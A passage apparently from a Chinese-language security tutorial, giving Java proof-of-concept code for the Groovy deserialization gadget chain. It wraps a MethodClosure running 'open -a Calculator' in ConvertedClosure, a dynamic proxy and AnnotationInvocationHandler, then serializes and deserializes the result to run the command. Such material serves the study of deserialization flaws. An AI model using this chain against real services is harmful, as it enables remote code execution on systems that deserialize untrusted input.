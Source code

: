 ```java
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // 封装需要执行的对象
        MethodClosure methodClosure = new MethodClosure("open -a Calculator", "execute");
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // 创建 ConvertedClosure 的动态代理类实例
        Map map = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(), new Class[]{Map.class}, convertedClosure);
        
        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 生成 exp
        String exp = serialize(invocationHandler);
        System.out.println(exp);
        // 触发 exp
        unserialize(exp);
    }
}
```

<div align=center><img src="./images/5.png"></div>
